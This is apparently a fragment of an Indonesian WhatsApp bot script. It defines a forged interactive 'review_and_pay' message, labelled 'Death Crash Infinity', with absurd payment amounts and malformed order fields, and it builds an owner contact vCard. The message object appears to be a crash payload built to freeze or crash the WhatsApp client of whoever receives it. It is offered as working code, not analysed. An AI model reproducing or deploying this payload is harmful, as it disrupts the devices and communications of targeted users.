 		const Porke2 = {
			key: {
				participant: `0@s.whatsapp.net`,
				...(m.chat ? {
					remoteJid: "status@broadcast"
				} : {})
			},
			'message': {
				"interactiveMessage": {
					"header": {
						"hasMediaAttachment": true,
						"jpegThumbnail": fs.readFileSync(`./database/image/zkosong.png`)
					},
					"nativeFlowMessage": {
						"buttons": [{
							"name": "review_and_pay",
							"buttonParamsJson": `{\"currency\":\"IDR\",\"total_amount\":{\"value\":49981399788,\"offset\":100},\"reference_id\":\"4OON4PX3FFJ\",\"type\":\"physical-goods\",\"order\":{\"status\":\"payment_requested\",\"subtotal\":{\"value\":49069994400,\"offset\":100},\"tax\":{\"value\":490699944,\"offset\":100},\"discount\":{\"value\":485792999999,\"offset\":100},\"shipping\":{\"value\":48999999900,\"offset\":100},\"order_type\":\"ORDER\",\"items\":[{\"retailer_id\":\"7842674605763435\",\"product_id\":\"7842674605763435\",\"name\":\"️࿆᷍🩸⃟༑⌁⃰𝐃𝐞𝐚𝐭𝐡 𝑪͢𝒓𝒂ͯ͢𝒔𝒉 𝐈𝐧͢𝐟𝐢ͮ𝐧͢𝐢𝐭𝐲͜͡⃟╮\",\"amount\":{\"value\":9999900,\"offset\":100},\"quantity\":7},{\"retailer_id\":\"custom-item-f22115f9-478a-487e-92c1-8e7b4bf16de8\",\"name\":\"\",\"amount\":{\"value\":999999900,\"offset\":100},\"quantity\":49}]},\"native_payment_methods\":[]}`
						}]
					}
				}
			}
		}

let list = []
for (let i of ownerNumber) {
list.push({
displayName: await zyn.getName(i + '@s.whatsapp.net'),
vcard: `BEGIN:VCARD\n
VERSION:3.0\n
N:${await zyn.getName(i + '@s.whatsapp.net')}\n
FN:${await zyn.getName(i + '@s.whatsapp.net')}\n
item1.TEL;waid=${i}:${i}\n
item1.X-ABLabel:Ponsel\n
item2.EMAIL;type=INTERNET: malvink003@gmail.com\n
item2.X-ABLabel:Email\n
item3.URL:https://whatsapp.com/channel/0029Vac8SosLY6d7CAFndv3Z
item3.X-ABLabel:YouTube\n
item4.ADR:;;Indonesia;;;;\n
item4.X-ABLabel:Region\n
END:VCARD`
})
}

function monospace(string) {
return '```' + string + '```'
}
